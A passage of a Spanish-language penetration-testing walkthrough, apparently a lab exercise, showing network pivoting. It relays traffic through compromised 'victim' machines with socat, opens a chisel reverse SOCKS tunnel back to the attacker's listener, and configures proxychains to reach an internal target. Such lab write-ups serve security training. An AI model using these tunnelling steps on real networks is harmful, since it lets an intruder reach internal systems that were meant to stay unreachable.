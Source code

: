 Ahora desde esta maquina 1 victima creamos el tunel para redirigir todo el trafico por el puero que nosostros decidamos **8000** en el que estamos escucha desde nuestra maquina atacante:
```bash
./socat TCP-LISTEN:8888,fork TCP:10.10.10.1:8000
```

Ahora desde la maquina victima 2
```bash
hostname -I
20.20.20.3 30.30.30.2 
```

Como ya tiene **chisel** realizaremos un reenvio de puertos apuntaremos a la maquina victima 2
```bash
chmod +x chisel_1.9.1_linux_amd64
```

Importante referncial un nuevo puerto **4444** ya que el primero que esta en escucha y esta en uso
```bash
./chisel_1.9.1_linux_amd64 client 20.20.20.2:8888 R:4444:socks
```

Ahora desde nuestra maquina recibimos nuevo tunel:
```bash
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse

2025/07/02 01:27:48 server: Listening on http://0.0.0.0:8000
2025/07/02 01:28:10 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
2025/07/02 02:02:06 server: session#9: tun: proxy#R:127.0.0.1:4444=>socks: Listening
```

**Nota** Ahora para que tengamos conexion con la maquina objetvio: **30.30.30.3** necesitamos configurar nuestro archivo de configuracion de **proxy**:
```bash
nvim /etc/proxychains4.conf
```

```bash
dynamic_chain # Aqui habilitamos el dynamic
#
# Dynamic - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped)
# otherwise EINTR is returned to the app
#
#strict_chain # Aqui comentamos esta para que no funciones
```

Ahora mas abajo del archivo agregamos un nuevo **sock**
```bash
R:127.0.0.1:4444=>socks: Listening # Este esta en eschucah desde nuestro servidor atacante:
```

Quedando asi:
```bash
socks5 127.0.0.1 4444
socks5 127.0.0.1 1080
```
